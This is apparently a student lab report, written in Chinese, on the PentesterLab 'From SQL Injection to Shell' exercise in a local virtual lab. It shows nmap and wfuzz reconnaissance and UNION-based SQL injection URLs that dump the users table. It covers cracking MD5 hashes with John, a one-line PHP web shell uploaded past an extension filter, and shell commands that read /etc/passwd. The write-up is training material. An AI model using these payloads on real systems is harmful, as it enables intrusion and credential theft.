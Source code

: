 # 从SQL输入到shell
## 实验环境
- 下载ISO镜像，其实就是一个Debian服务器，用该镜像新建一个虚拟机，安装完毕后发现是个控制台。
- kali攻击者：
  - ```kali-linux-2018.3-amd64.iso```
  - 使用网卡:NatNetwork
  - 网络配置：10.0.2.8
- Debian SQL:
  - ```SQLfrom_sqli_to_shell_i386.iso```
  - 使用网卡：NatNetwork
  - 网络配置：10.0.2.15
 
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_%E9%85%8D%E7%BD%AE.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/sql_%E9%85%8D%E7%BD%AE.png)

- 两者在同一个网段，能够ping成功
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_ping.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/sql_ping.png)

- 指纹识别：收集有关web应用程序和正在使用的技术信息
  - 使用```nmap -A 10.0.2.15```扫描服务器，查看它的MAC地址和端口的开放情况
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/attacker_nmap_sql.png)
  - 通过浏览器识别网页源码，发现是应用程序是用PHP编写的
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%BA%90%E7%A0%81_php.png)
  - 使用BurpSuit检查HTTP标头，获取更多有用的信息
    - 先给浏览器设置代理：Preferences->Advanced->Network->Setting
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%B5%8F%E8%A7%88%E5%99%A8%E4%BB%A3%E7%90%86%E8%AE%BE%E7%BD%AE.png)
    - 将BurpSuit的默认代理拦截先关闭，然后再在浏览器访问服务器，```10.0.2.15```
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E6%B5%8F%E8%A7%88%E5%99%A8%E9%BB%98%E8%AE%A4%E4%BB%A3%E7%90%86%E5%85%B3%E9%97%AD.png)
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/burpsuit_http%E5%8A%AB%E6%8C%81.png)
    
  - 使用工具wfuzz能够强力检测web服务器上的目录和页面，运行一下命令来检测远程文件和目录
  ``` wfuzz -c -z file,wordlist/general/big.txt --hc 404 http://10.0.2.15/FUZZ```
    - ```-c```是输出字体的颜色
    - ```-z file,wordlist/general/big.txt```告诉wfuzz使用big.txt作为字典来强制远程目录的名称
    - ```--hc``` 404如果响应代码是404，告诉wfuzz忽略响应
    - ```http://10.0.2.15/FUZZ```告诉wfuzz用字典中的每个值替换URL中的单词FUZZ。
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF0.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF1.png)
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E4%BF%A1%E6%81%AF2.png)

  - wfuzz还可以用于检测服务器上的PHP脚本
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/wfuzz%E6%A3%80%E6%B5%8BPHP%E8%84%9A%E6%9C%AC.png)

- SQL注入的检测和利用(做实验到半虚拟机卡住了，重新开始后服务器的ip变为：10.0.2.9)
  - 检测SQL注入
    - 基于整数的检测
      在地址栏输入
``` 
10.0.2.9/cat.php?id=1
10.0.2.9/cat.php?id=2
10.0.2.9/cat.php?id=3
```
得到如下访问结果
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1%2C2.png)

如果输入10.0.2.9/cat.php?id=2'数据库将引发错误，多了一个'，该SQL的请求语法不正确
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D2%2C3.png)
    
如果输入10.0.2.9/cat.php?id=2-1，效果和输入http://10.0.2.9/cat.php?id=1一样，2-1操作由数据库自动执行
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1%2C2-1.png)
    
- 基于字符串的检测
  - 作为一般规则，奇数个单引号会引发错误，偶数个单引号不会发生错误 
  - 如果在单引号后面加上```--```表示后面的内容会被注释掉，因此不会受到错误提示
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/id%3D1'.png)
- 利用SQL注入
  - UNION关键字 
  - 步骤：
    - 找到执行UNION的列数
    - 查找页面中回显的列
    - 从数据库元表中检索信息
    - 从其他表/数据库中检索信息
  - 猜列数
    - 使用UNION SELECT
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E7%8C%9C%E5%88%97%E6%95%B0.png)
    - 使用order by,order by主要用于告诉数据库应该使用哪个列来排序结果，如下图，按不同的列，返回结果不同
    【order_by】
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/order_by.png)
- 进行以上操作后，我们猜测数据库有4列
- 检索信息
  - 查找页面中回显的列,确定回显在第二列
  ``` 
  http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%20@@version,2,3,4
  http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,@@version,3,4
  ```
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E5%9B%9E%E6%98%BE1.png)
   ``` 
   http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,2,@@version,4
   http://10.0.2.9/cat.php?id=1%20UNION%20SELECT%201,2,3,@@version
   ```
   ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/%E5%9B%9E%E6%98%BE2.png)

  - 找到当前数据库中所有表的名称和表的列的名称
  ```
  http://10.0.2.9/cat.php?id=1 UNION SELECT 1,concat(table_name,':', column_name),3,4 FROM information_schema.columns
  ```
  - 根据得到结果猜测用户名和密码存储在users表中
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/users.png)
  - 将users表中的信息显示出来
  ```
  http://10.0.2.9/cat.php?id=1 UNION SELECT 1,concat(login,':',password),3,4 FROM users
  ```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/users%E4%BF%A1%E6%81%AF.png)

- 访问管理页面和代码执行
  - 破解密码 
    - google搜索

    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/password0.png)
    ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/password.png)

    - 使用John可以破解该密码,先使用gunzip rocketyou.txt.gz 解压得到rocketyou.txt
    把用户名和密码密文写入到password中，执行
    ```
    john password --format=raw-md5  --wordlist=/usr/share/wordlists/rockyou.txt --rules
    ```
得到如下：

![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/john%E7%A0%B4%E8%A7%A3.png)

- 进行代码注入
  - 使用已经获得的用户名和密码登录到页面
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/login.png)
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/login1.png)
  - 创建test.php
  ```
  <?php 
  system($_GET['cmd']);
  ?>
  ```
 
  - add a new picture后，可以看到文件没有正确上传，应用程序阻止上传.php的文件

  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add1.png)
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add2.png)

  - 将文件名改为test.php.test文件上传成功
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/add3.png)
  - 查看网页原码
  ![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/html.png)

- 利用url执行cmd命令获取服务器信息
```
10.0.2.9/admin/uploads/test.php.test?cmd=uname
```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/linux.png)
获取系统用户的完整信息
```
10.0.2.9/admin/uploads/test.php.test?cmd=cat /etc/passwd
```
![image](https://github.com/CUCCS/2018-NS-Public-PWHL/blob/NS_chap0x07/ns_chap0x07/linux1.png)

- 参考资料
  - [从SQL注入到Shell ](https://pentesterlab.com/exercises/from_sqli_to_shell) 
  - [2018-NS-Public-FLYFLY-H ](https://github.com/CUCCS/2018-NS-Public-FLYFLY-H/)
  - [2018-NS-Public-luyj ](https://github.com/CUCCS/2018-NS-Public-luyj)

  



    

